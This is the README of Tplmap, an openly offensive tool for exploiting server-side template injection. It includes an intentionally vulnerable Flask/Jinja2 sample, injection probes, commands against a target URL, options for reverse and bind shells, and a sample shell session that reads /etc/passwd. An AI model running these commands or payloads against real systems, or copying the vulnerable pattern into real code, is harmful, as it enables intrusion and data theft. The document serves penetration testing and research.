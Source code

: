 Tplmap
======

> This project is no longer maintained. I'm happy to merge new PRs as long they don't break the [test suite](https://github.com/epinna/tplmap/wiki/Run-the-test-suite).

Tplmap assists the exploitation of Code Injection and Server-Side Template Injection vulnerabilities with a number of sandbox escape techniques to get access to the underlying operating system.

The tool and its test suite are developed to research the SSTI vulnerability class and to be used as offensive security tool during web application penetration tests.

The sandbox break-out techniques came from James Kett's [Server-Side Template Injection: RCE For The Modern Web App][10], other public researches [\[1\]][1] [\[2\]][2], and original contributions to this tool [\[3\]][3] [\[4\]][4].

It can exploit several code context and blind injection scenarios. It also supports _eval()_-like code injections in Python, Ruby, PHP, Java and generic unsandboxed template engines.

Server-Side Template Injection
------------------------------

Assume that you are auditing a web site that generates dynamic pages using templates composed with user-provided values, such as this web application written in Python and [Flask][12] that uses [Jinja2][11] template engine in an unsafe way.

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')
    
    # SSTI VULNERABILITY
    # The vulnerability is introduced concatenating the
    # user-provided `name` variable to the template string.
    output = Jinja2.from_string('Hello ' + name + '!').render()
    
    # Instead, the variable should be passed to the template context.
    # Jinja2.from_string('Hello {{name}}!').render(name = name)

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

From a black box testing perspective, the page reflects the value similarly to a XSS vulnerability, but also computes basic operation at runtime disclosing its SSTI nature.

```
$ curl -g 'http://www.target.com/page?name=John'
Hello John!
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

Installation
------------
Tplmap has been updated to support installation via the included Dockerfile with the following:

Building the container:
```
docker build -t tplmap .
```

Running the container:
```
docker run -it --rm tplmap
```

An alias can also be created in the ~/.zshrc or ~/.bashrc to call the command for you with the following:
```
alias tplmap="docker run -it --rm tplmap"
```

Example usage with alias:
```
$ tplmap -u 'http://<TARGET>:<PORT>' -d name=<PARAM>

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code
```

Exploitation
------------

Tplmap is able to detect and exploit SSTI in a range of template engines to get access to the underlying file system and operating system. Run it against the URL to test if the parameters are vulnerable.

```
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell                Run shell on the target
    --os-cmd                  Execute shell commands
    --bind-shell PORT         Connect to a shell bind to a target port
    --reverse-shell HOST PORT Send a shell back to the attacker's port
    --upload LOCAL REMOTE     Upload files to the server
    --download REMOTE LOCAL   Download remote files
```

Use `--os-shell` option to launch a pseudo-terminal on the target.

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Supported template engines
--------------------------

Tplmap supports over 15 template engines, unsandboxed template engines and generic _eval()_-like injections.

| Engine                 | Remote Command Execution |  Blind | Code evaluation | File read | File write |
|------------------------|---------------|-------------------|-----------------|-----------|------------|
| Mako                   | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Jinja2                 | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Python (code eval)     | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Tornado                | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Nunjucks               | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Pug                    | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| doT                    | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Marko                  | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| JavaScript (code eval) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Dust (<= dustjs-helpers@1.5.0) | ✓ |  ✓        | JavaScript      |  ✓        |  ✓         |
| EJS                    | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Ruby (code eval)       | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| Slim                   | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| ERB                    | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| Smarty (unsecured)     | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| PHP (code eval)        | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Twig (<=1.19)          | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Freemarker             | ✓ |  ✓                | Java            |  ✓        |  ✓         |
| Velocity               | ✓ |  ✓                | Java            |  ✓        |  ✓         |
| Twig (>1.19)           | × | ×                 | ×               | ×         | ×          |
| Smarty (secured)       | × | ×                 | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0) | × | ×          | ×               | ×         | ×          |


Burp Suite Plugin
-----------------

See [burp_extension/README.md](burp_extension/README.md).

[10]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[11]: http://jinja.pocoo.org/
[12]: http://flask.pocoo.org/
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
